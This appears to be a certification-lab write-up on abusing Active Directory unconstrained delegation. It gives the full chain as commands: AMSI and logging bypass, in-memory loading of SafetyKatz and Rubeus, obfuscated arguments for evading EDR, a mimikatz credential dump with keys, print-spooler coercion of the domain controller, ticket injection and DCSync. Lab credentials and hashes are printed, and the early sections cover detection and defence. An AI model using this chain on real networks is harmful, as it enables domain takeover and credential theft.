


CRTE - Certified Red Team Expert
Privilege Escalation - Unconstrained Delegation
Unconstrained Delegation is a critical topic in Active Directory (AD) security, particularly because it represents a significant attack vector for adversaries when misconfigured. To master this topic, you need to understand how it works, why it exists, the security implications, and both offensive and defensive strategies around it. Here's everything you need to know, explained clearly and in-depth.
Unconstrained Delegation is an AD feature that allows a computer or service to impersonate any user that authenticates to it. This feature relies on Kerberos authentication, a protocol used extensively in Windows environments. When a user or service authenticates to a system with Unconstrained Delegation enabled, their Ticket Granting Ticket (TGT) is stored in the memory of the system they connect to. The system can then use this TGT to act on behalf of the user and access other services in the network. For example, if a user authenticates to a file server with Unconstrained Delegation enabled, the server can use the user’s TGT to impersonate the user and access other network resources.
Unconstrained Delegation was originally introduced to simplify service impersonation, particularly for applications that need to interact with multiple resources on behalf of a user. For example, a web application might need to query a database and access file shares using the same user credentials. By caching the TGT, the application could impersonate the user without requiring additional authentication. However, this feature creates a massive security risk because any compromise of a system with Unconstrained Delegation enabled exposes the TGTs of all users who authenticate to it. This makes Unconstrained Delegation systems prime targets for attackers.
As we can see on the diagram below, the Web Server has TrustedForDelegation flag enabled, meaning that it has Unconstrained Delegation configured and the Web Server can impersonate any user that logged in to this server to any service in the domain on behalf of these previously logged in users.

We can also spot that target has been configure with Unconstrained Delegation if we find the server settings configured with Trust this computer for delegation to any service (Kerberos Only).

The biggest security issue with Unconstrained Delegation is that it enables an attacker to escalate privileges and move laterally within the network. When a system configured with this feature is compromised, the attacker can extract cached TGTs from memory using tools like mimikatz. These TGTs allow the attacker to impersonate users, including privileged accounts like domain administrators, effectively giving them access to sensitive resources and enabling further exploitation of the domain. The danger is amplified by the fact that many organizations unknowingly leave critical systems, such as domain controllers, configured with Unconstrained Delegation, which is enabled by default for certain configurations.
An important step in mastering this topic is understanding the role of service accounts and machine accounts. In AD, delegation can be applied to both service accounts (used by applications) and computer accounts (representing systems in the domain). When a service or machine account is configured with Unconstrained Delegation, it effectively acts as a catch-all for user TGTs. If a privileged account, such as a domain administrator, interacts with such a system, their TGT will be cached in memory, making it available to an attacker who compromises that system.
You should also understand how attackers identify and exploit systems with Unconstrained Delegation.
Attackers typically use tools like BloodHound, AdModule or PowerView modules to enumerate AD environments and identify systems configured with Unconstrained Delegation. Once identified, these systems become high-value targets because compromising them often leads to significant privilege escalation opportunities. Attackers can perform Pass-the-Ticket attacks by extracting TGTs from memory and using them to authenticate to other systems. This attack method is stealthy because it bypasses traditional password or NTLM-based authentication mechanisms.
Detecting systems with Unconstrained Delegation involves querying AD for accounts with the TrustedForDelegation attribute enabled. This attribute is a flag that indicates whether a computer or service account is configured for Unconstrained Delegation. Administrators can use PowerShell, LDAP queries, or third-party tools like BloodHound or PowerShell modules like, ADModule and PowerView to identify these accounts. Once detected, it is important to evaluate whether delegation is genuinely required and, if not, reconfigure or disable it.
Defending against Unconstrained Delegation requires a combination of proper configuration, monitoring, and policy enforcement. The best approach is to transition systems to use Constrained Delegation or Resource-Based Constrained Delegation (RBCD), which limit delegation to specific resources or services. High-privilege accounts, such as domain administrators, should be configured with "Account is sensitive and cannot be delegated," which prevents their TGTs from being cached on delegation-enabled systems. Additionally, systems configured with delegation should be monitored for unusual activity, such as unexpected service ticket requests or TGT extraction attempts.
Understanding Unconstrained Delegation also requires knowledge of its relationship to domain controllers. Domain controllers are particularly critical because they are configured with Unconstrained Delegation by default. This is necessary for their role in the Kerberos authentication process, as they must impersonate users to issue service tickets. However, this default configuration means that any compromise of a domain controller effectively grants an attacker full access to the domain.
In conclusion, Unconstrained Delegation is a powerful but risky feature in AD environments. It simplifies authentication for legitimate use cases but creates significant security vulnerabilities if not properly managed. To master this topic, you need to understand how it works, its security implications, and how attackers exploit it. You also need to focus on detection and mitigation techniques to minimize the risks associated with this feature. By combining theoretical knowledge with practical experience, you can effectively secure AD environments against Unconstrained Delegation-based attacks.
Enumerating Unconstrained Delegation with ADModule
Let’s start our Unconstrained Delegation with ADModule by executing InvisiShell to bypass PowerShell security features like system-wide transcription, Script Block Logging, AMSI and Constrained Language Mode(CLM).
RunWithRegistryNonAdmin.bat

After bypassing Powershell Security Features we can now import ADModule.
Import-Module Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

We can now start enumerating Unconstrained Delegation. The command we will use, will enumerate if there’s any computer in our target domain with Unconstrained Delegation enabled.
Get-ADComputer -Filter {TrustedForDelegation -eq $True}

- DistinguishedName:
- This is the LDAP path to the computer object in Active Directory. It includes the organizational unit (OU) or container where the object resides, as well as the domain name. For example,
CN=US-DC,OU=Domain Controllers,DC=us,DC=techcorp,DC=localindicates that theUS-DCcomputer is in the "Domain Controllers" OU within theus.techcorp.localdomain. - DNSHostName:
- This is the fully qualified domain name (FQDN) of the computer in the AD domain. For example,
US-DC.us.techcorp.localrepresents the FQDN for theUS-DCcomputer. - Enabled:
- This indicates whether the computer account is active (True) or disabled (False). Both computers in your output are active since
Enabledis set toTrue. - Name:
- This is the NetBIOS name of the computer, such as
US-DCorUS-WEB. It's the shorter, non-FQDN identifier used within the domain. - ObjectClass:
- This indicates the type of object in Active Directory. In this case, the value is
computer, meaning the objects being queried are computer accounts. - ObjectGUID:
- This is the globally unique identifier (GUID) of the computer object in Active Directory. Every AD object has a unique GUID to distinguish it, regardless of its name or location.
- SamAccountName:
- This is the Security Account Manager (SAM) name of the computer object. By convention, it is the NetBIOS name of the computer followed by a
$sign, such asUS-DC$orUS-WEB$. The$sign indicates that it's a computer account, not a user account. - SID (Security Identifier):
- This is the unique security identifier assigned to the computer object in the domain. It is used to identify the object in access control lists (ACLs) and other security contexts.
- UserPrincipalName:
We can see above that we do have do have 2 computers in our target domain that have the flag TrustedForDelegation enabled.
In this case we have US-DC and US-WEB with Unconstrained Delegation configured. Since we were able to compromise the US-WEB host on the previous lab, we can explore Unconstrained Delegation on US-WEB host.
We can start by elevating our privilege as US-WEB using OverPass-The-Hash attack using webmaster’s AES256 with SafetyKatz.
User: webmaster
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
Let’s start by encoding our Rubeus argument(asktgt) using ArgSplit.bat
ArgSplit.bat

After doing a Copy/Paste of the encoded argument we can run our Rubeus.exe in the memory using Loader.exe.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
We can see that our ticket has been successfully imported. Now that we do have elevated our as webmaster let’s use Find-PSRemotingLocalAdminAccess to find out if our user has Local Admin access on any machine inside our target domain.

We can see above that webmaster has local admin access inside US-WEB host.
I also tried to make the same enumeration using Find-LocalAdminAccess from PowerView module but I was not able to find the same result. Find-LocalAdminAccess did not bring US-Web as a valid host that webmaster has local Admin Access.
Import-Module .\PowerView.ps1

- This field is typically used for user accounts and contains the user’s logon name in email format (e.g.,
user@domain.com). For computer accounts, this field is often empty, as seen in your output.
Key Differences
Find-PSRemotingLocalAdminAccess:- It specifically checks for local administrator access via PowerShell Remoting (WinRM).
- It requires WinRM to be enabled and properly configured on the target machines.
- If WinRM is blocked by a firewall or not enabled, the tool may not give accurate results or fail to connect.
Find-LocalAdminAccess(PowerView):
Let’s move on…
- It checks local administrator access based on LDAP enumeration.
- This method does not rely on WinRM but instead queries group membership via domain enumeration.
- If WinRM isn't working but LDAP data is accessible, this method may yield results that differ from
Find-PSRemotingLocalAdminAccess.
PortForwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP.
winrs -r:US-WEB cmdnetsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

1. netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=0.0.0.0:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command:
nesh interface portproxy show all

1st Use Case Scenario
For the first part of this demonstration, I want to prove that simply having a machine configured with Unconstrained Delegation does not immediately give me access to high-privileged accounts unless those accounts have previously authenticated to the machine. Unconstrained Delegation allows a system to impersonate any account that logs into it by caching Kerberos Ticket Granting Tickets (TGTs) in memory. However, if a Domain Admin or the domain controller (DC$) has never interacted with this machine, their credentials will not be present in memory for me to extract.
To begin, I will attempt to dump the LSASS process memory on my target machine, US-WEB, which has Unconstrained Delegation enabled. Since no privileged accounts have logged into this machine yet, I expect that my credential dump will only contain standard users or service accounts that have previously authenticated to US-WEB. This will confirm that Unconstrained Delegation alone does not provide direct access to a Domain Admin or DC$ credentials unless they have actively connected to the machine.
Once I extract the credentials, I will analyze them carefully. If my assumption is correct, I will not find any Domain Admin accounts or the domain controller's machine account (DC$) in the results. This demonstrates a crucial limitation of Unconstrained Delegation: I need a high-privileged account to interact with the delegated machine before I can leverage their credentials for privilege escalation. Simply having a machine configured for delegation does not automatically expose valuable tickets; I must wait for—or force—a privileged account to authenticate to the system.
This sets up the need for the second part of the demonstration, where I will actively coerce the domain controller (DC$) to authenticate to US-WEB. By using a known technique, the Print Spooler Bug (PrintNightmare), I can force the DC$ account to establish a connection with the machine, allowing me to capture its Kerberos ticket in memory. Once this is done, I will perform another LSASS memory dump, and this time, I expect to find the DC$ ticket available for extraction. This will allow me to impersonate the domain controller and move toward full domain compromise.
For this step of the demonstration, I start by mapping a network drive (X:) to the target machine, US-WEB, specifically pointing to the Downloads directory of the webmaster user.
This allows me to interact with the target machine’s file system remotely as if it were a local drive. Once the mapping was successful, I used XCOPY to transfer Loader.exe from my attacking machine to the target.
net use x: \\US-WEB\C$\Users\webmaster\Downloads

The purpose of Loader.exe is to execute SafetyKatz.exe directly in memory, allowing me to extract credentials from LSASS without writing SafetyKatz.exe to disk. This setup ensures that I have the necessary tooling on the target machine while minimizing detection by security solutions.
echo F | XCOPY C:\AD\Tools\Loader.exe x:Loader.exe

For this next step, I need to encode the argument that will be passed to SafetyKatz.exe, specifically the sekurlsa::ekeys command, which I will use to extract Kerberos encryption keys from memory. Instead of passing the argument in plaintext, I am using ArgSplit.bat to obfuscate it.
ArgSplit.bat works by breaking down and encoding the command using environment variable substitutions in Windows batch scripting. Each letter of the argument is assigned a variable, which is later reconstructed when the batch script executes. This technique helps evade detection by security solutions such as Microsoft Defender for Endpoint (MDE) and other Endpoint Detection and Response (EDR) tools, which often flag direct execution of known malicious commands.
By encoding the sekurlsa::ekeys command, I ensure that when I later execute SafetyKatz in-memory using Loader.exe, the argument won’t be immediately recognizable as suspicious, reducing the chances of triggering security alerts. This step is crucial in maintaining stealth during the attack while ensuring that I can extract the necessary credentials from LSASS.
ArgSplit.bat

We do a Copy/paste into our target session.
Now that everything is set up, I can proceed with dumping the Kerberos encryption keys from memory. I execute Loader.exe and provide it with the path to SafetyKatz.exe, which is hosted on my local HTTP server. Instead of passing the sekurlsa::ekeys argument in plaintext, I use the encoded version stored in %Pwn%, which was generated earlier using ArgSplit.bat. This helps evade detection by security solutions.
When Loader.exe executes, it downloads SafetyKatz.exe directly into memory, preventing it from ever touching disk. This in-memory execution minimizes the risk of triggering antivirus or EDR alerts. Once loaded, SafetyKatz runs the sekurlsa::ekeys command to extract Kerberos encryption keys from the LSASS process. These keys are critical because they allow me to perform Pass-the-Ticket (PTT) attacks or impersonate authenticated users without needing their passwords.
After the execution, the "exit" argument ensures the process terminates cleanly, further reducing any forensic evidence left behind. At this stage, I should be able to see the extracted encryption keys, but as expected, I won’t find any from a Domain Admin or the DC$ account since they have not logged into the target machine yet. This confirms my earlier assumption that Unconstrained Delegation only works if a high-privilege user has authenticated to the compromised machine.
This sets up the next phase of my attack, where I will force the domain controller to authenticate to my target machine. Once the US-DC$ account has interacted with US-WEB, I will repeat this process, and this time, I should be able to extract its encryption keys from memory.
C:\Users\webmaster\Downloads\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"
ekeys
`bash
mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 17217244 (00000000:0106b6dc)
Session : Interactive from 2
User Name : DWM-2
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:44:47 AM
SID : S-1-5-90-0-2
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 17212586 (00000000:0106a4aa)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:44:46 AM
SID : S-1-5-96-0-2
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 23912 (00000000:00005d68)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:08:21 AM
SID : S-1-5-96-0-1
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 17403124 (00000000:01098cf4)
Session : RemoteInteractive from 2
User Name : webmaster
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:45:01 AM
SID : S-1-5-21-210670787-2521448726-163245708-1140
* Username : webmaster
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
rc4_hmac_nt 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_old 23d6458d06b25e463b9666364fb0b29f
rc4_md4 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_nt_exp 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_old_exp 23d6458d06b25e463b9666364fb0b29f
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : US-WEB$
Domain : US
Logon Server : (null)
Logon Time : 7/7/2024 2:08:20 AM
SID : S-1-5-18
* Username : us-web$
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac ff8e1037043ae75457e206470ff99a95f40f1a30ebcf6a877e2a2683b82af07c
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 17217309 (00000000:0106b71d)
Session : Interactive from 2
User Name : DWM-2
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:44:47 AM
SID : S-1-5-90-0-2
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 40963 (00000000:0000a003)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:08:22 AM
SID : S-1-5-90-0-1
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : US-WEB$
Domain : US
Logon Server : (null)
Logon Time : 7/7/2024 2:08:21 AM
SID : S-1-5-20
* Username : us-web$
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac ff8e1037043ae75457e206470ff99a95f40f1a30ebcf6a877e2a2683b82af07c
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 23822 (00000000:00005d0e)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:08:21 AM
SID : S-1-5-96-0-0
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
Authentication Id : 0 ; 17404225 (00000000:01099141)
Session : RemoteInteractive from 2
User Name : webmaster
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:45:01 AM
SID : S-1-5-21-210670787-2521448726-163245708-1140
* Username : webmaster
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
rc4_hmac_nt 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_old 23d6458d06b25e463b9666364fb0b29f
rc4_md4 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_nt_exp 23d6458d06b25e463b9666364fb0b29f
rc4_hmac_old_exp 23d6458d06b25e463b9666364fb0b29f
Authentication Id : 0 ; 40984 (00000000:0000a018)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:08:22 AM
SID : S-1-5-90-0-1
* Username : US-WEB$
* Domain : us.techcorp.local
Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,
* Key List :
aes256_hmac db4ea970941159dc9c1a44805445a6811be17aafedc64dd6972db6bbdce46cf6
aes128_hmac 5951e4e276047664615d9d7a6c3d8d4e
rc4_hmac_nt 892ca1e8d4343c652646b59b51779929
rc4_hmac_old 892ca1e8d4343c652646b59b51779929
rc4_md4 892ca1e8d4343c652646b59b51779929
rc4_hmac_nt_exp 892ca1e8d4343c652646b59b51779929
rc4_hmac_old_exp 892ca1e8d4343c652646b59b51779929
mimikatz(commandline) # exit
`
For the first part of this demonstration, I confirmed that Unconstrained Delegation alone does not immediately provide access to high-privileged accounts unless those accounts have authenticated to the target machine. By dumping the LSASS memory on US-WEB, which has Unconstrained Delegation enabled, I was only able to retrieve tickets for low-privileged accounts and the machine’s own account (US-WEB$), but no Domain Admins or the US-DC$ machine account were present.
This aligns with my initial assumption that Unconstrained Delegation only caches the Kerberos Ticket Granting Ticket (TGT) of users or machines that have logged in to the system. Since neither a Domain Admin nor the US-DC$ (the domain controller machine account) had interacted with US-WEB, their TGTs were not available in memory, meaning I could not immediately impersonate them or escalate privileges.
2nd Use Case Scenario
To demonstrate the real power of Unconstrained Delegation, I now need to move forward with the second phase of the attack, where I will force the Domain Controller (US-DC$) to authenticate to US-WEB. By coercing authentication using a known attack technique like the Print Spooler Bug (PrintNightmare), I will make the DC$ account establish a connection to US-WEB. Once this happens, its TGT will be stored in memory, and I will repeat the credential dump process. This time, I expect to find DC$ credentials, proving that I can now impersonate the domain controller and escalate privileges to fully compromise the domain.
This second part will highlight why forcing a privileged account to authenticate to an Unconstrained Delegation-enabled machine is necessary to weaponize this misconfiguration and escalate privileges successfully.
The first part of this demonstration establishes the foundation of why Unconstrained Delegation alone is not immediately exploitable in every case. Without a privileged account having authenticated to the target machine, I have no valuable tickets to extract. The second part will then focus on how I can actively force a domain controller to authenticate to my target, making it possible to escalate my privileges.
To begin the second phase of this attack, I need to set up Rubeus to monitor authentication activity on US-WEB, my target machine that has Unconstrained Delegation enabled. Since my goal is to capture the DC$ account's authentication, I want to track every login event happening on this machine in real time.
To evade detection, I'm encoding the monitor argument before passing it to Rubeus. Instead of executing Rubeus.exe monitor directly, which could be flagged by security solutions, I use ArgSplit.bat to break it down and reconstruct it dynamically. This obfuscation technique helps bypass security monitoring by ensuring the command doesn’t appear in a recognizable format.
ArgSplit.bar

Once Rubeus is running in monitoring mode, it will actively capture any Kerberos authentication tickets that get stored in memory. At this stage, I'm still waiting for US-DC$ to authenticate to US-WEB. If I were to check LSASS memory now, I still wouldn’t see its TGT because the domain controller has not yet interacted with this system.
This monitoring step is critical because it allows me to detect when the DC$ machine account finally authenticates, which will confirm that my coercion technique (such as the Print Spooler Bug) successfully forced the domain controller to connect to US-WEB. Once I see the DC$ login event, I can proceed to the next step, where I will dump memory again to extract its TGT, proving that Unconstrained Delegation works as expected when high-privileged accounts authenticate to the target machine.
C:\Users\webmaster\Downloads\Loader -Path http://127.0.0.1:8080/Rubeus.exe -args "%Pwn%" /interval:5 /nowrap

As I started Rubeus in monitoring mode, I confirmed that no high-privileged accounts, such as Domain Admins or US-DC$, have authenticated to my target machine US-WEB yet. The output shows only a limited number of Ticket Granting Tickets (TGTs) in memory, specifically five, which suggests that only a few standard user or service accounts have interacted with this machine.
The TGT cache reflects authentication activity, and since the Domain Controller (US-DC$) has not yet connected, its ticket is missing from the list. This validates my earlier assumption that Unconstrained Delegation only works when a privileged account authenticates to the machine, without that, I have no high-value TGTs to extract.
This confirms the need for the next phase of the attack, where I will force authentication from the Domain Controller to this machine. Once US-DC$ connects, its TGT will be stored in memory, allowing me to extract it and escalate privileges. Now, I will proceed with coercing the domain controller to authenticate to US-WEB, ensuring that its Kerberos ticket becomes available for collection.
I initiated the forced authentication of US-DC$ (the domain controller) to my target machine US-WEB, which has Unconstrained Delegation enabled. To achieve this, I used MS-RPRN.exe, a tool that exploits the Print Spooler Bug (MS-RPRN coercion) to trick the domain controller into authenticating to my machine target machine (US-WEB).
C:\AD\Tools\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local

The output confirms that the coerced authentication likely worked, as it states:
"Attempted printer notification and received an invalid handle. The coerced authentication probably worked!"
This response is expected when the attack successfully forces the DC$ account to connect to US-WEB. Although the domain controller sees it as a failed request, in reality, it still sends its Kerberos Ticket Granting Ticket (TGT) to my machine as part of the authentication process.
Now that the US-DC$ machine account has interacted with US-WEB, its TGT should be stored in memory. This sets up the next phase of the attack, where I will run Rubeus again to monitor for newly cached tickets. If everything worked as planned, I should now be able to extract the DC$ TGT, proving that I can fully impersonate the domain controller and escalate privileges to Domain Admin.
By obtaining the KRBTGT hash, I gain the ability to forge Golden Tickets, granting me persistent and indefinite access to the domain. This completes the attack chain, proving that Unconstrained Delegation, when abused correctly, provides a direct path to full domain compromise when a privileged account is coerced into authenticating to the target machine.

Now that I have successfully coerced US-DC$ to authenticate to my target machine US-WEB, I can see the results in my Rubeus monitoring session. Previously, I had only five Ticket Granting Tickets (TGTs) cached in memory, but after forcing authentication, I now have seven, confirming that new logins occurred. Analyzing the output, I can clearly identify that US-DC$ (the domain controller) has now authenticated to US-WEB, meaning its TGT is now stored in memory.
This proves that Unconstrained Delegation worked exactly as expected. The moment US-DC$ was coerced into authenticating to my target system, its TGT was cached, allowing me to extract it.
Now that I have the Base64-encoded ticket.
We will quickly use ArgSplit.bat to encode our Rubeus.exe arguement (ptt) and simply do the copy/paste into our CMD session as we always do.
ArgSplit.bat

we can move forward to the final step by importing the TGT into my session using Rubeus.
Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /ticket:

By injecting the US-DC$ ticket into my current session, I will be able to impersonate the domain controller, giving me access to privileged domain operations. The best way to fully compromise the Active Directory domain at this point is to execute a DCSync attack. With DCSync, I can request and retrieve password hashes for any account, including high-privileged users and even the KRBTGT account, which is the most critical account in any AD environment.
If we check with klist command we can see the ticket imported.
klist

DCSync Attack
Executing DCSync allowed us to retrieve the KRBTGT account hashes, including NTLM and AES encryption keys. These hashes are the most valuable credentials in an Active Directory environment, as they allow me to generate Golden Tickets, which provide persistent and unlimited access to the domain.
Before running the attack, I obfuscated the argument lsadump::dcsync using ArgSplit.bat to evade detection, ensuring that security solutions do not immediately flag my command execution.
lsadump::dcsync
